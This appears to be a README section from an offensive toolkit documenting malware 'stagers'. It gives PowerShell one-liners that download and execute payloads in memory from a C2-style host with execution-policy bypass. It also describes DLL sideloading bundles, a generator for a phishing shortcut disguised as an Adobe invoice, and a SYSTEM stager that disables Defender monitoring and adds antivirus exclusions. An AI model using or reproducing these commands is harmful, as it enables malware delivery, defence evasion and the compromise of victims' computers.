 #### Stagers
Zip up the .exe.config, dll and sideloading exe and base64.exe -n 0 -i then upload it into the module repo. Provide the url, stagers will decode and drop, extract, execute. noParam for executing over sessions and with Intune, Systemsadrat is good for vm run-command against VMs and Servers, especially those without EDR, will attempt to add a defender exclusion and disable monitoring. Simple stager drops to current folder, 'stager' has conditionals folders (if admin) and commented out exlude/disable defender (if admin). lnkgen for shortcut files. 

***TODO: Stealthy Stager with lnkgen persistence built in.

##### noparamStager.ps1 - Set the params as vars in the script to make remote execution simple
```powershell
# edit before invoking
notepad .\noParamStager.ps1 
powershell -ep bypass .\noParamStager.ps1 

# exec in memory from remote share
$url = ''
powershell -ep bypass iex(iwr -uri $url)

# One-Liner for stager B64 decode
$url = ''
powershell -ep bypass -c "iex ([System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String((iwr -uri $url -UseBasicParsing).Content)))"
```

##### lnkGen.ps1 - Generate a LNK Stager
```powershell
$url = "https://c2.serverless.com/api/assets/fhZip"
$zipName = "fh.zip"
$exeName = "FileHistory.exe"
$lnkPath = ".\invoice.lnk"
$iconPath = ".\adobe.png"

powershell -ep bypass .\lnkGen.ps1 -url $url -zipName $zipName -exeName $exeName -lnkPath $lnkPath # -iconPath $iconPath
```

##### systemStager - For running as SYSTEM/Admin Drops to AppData, random zipname, disables real-time monitoring and sets AV path exclusions
```powershell
$url = "https://c2.serverless.com/api/assets/fhZip"
$exeName = "FileHistory.exe"

powershell -ep bypass .\systemStager.ps1 -url $url -exeName $exeName
```

##### simpleStager - Drops to current Folder and executes 
```powershell
$url = "https://c2.serverless.com/api/assets/fhZip"
$zipName = "fh.zip"
$exeName = "FileHistory.exe"

# powershell
powershell -ep bypass .\simpleStager.ps1 -url $url -zipName $zipName -exeName $exeName

# or cmd
.\simpleStager.bat -url $url -zipName $zipName -exeName $exeName
```
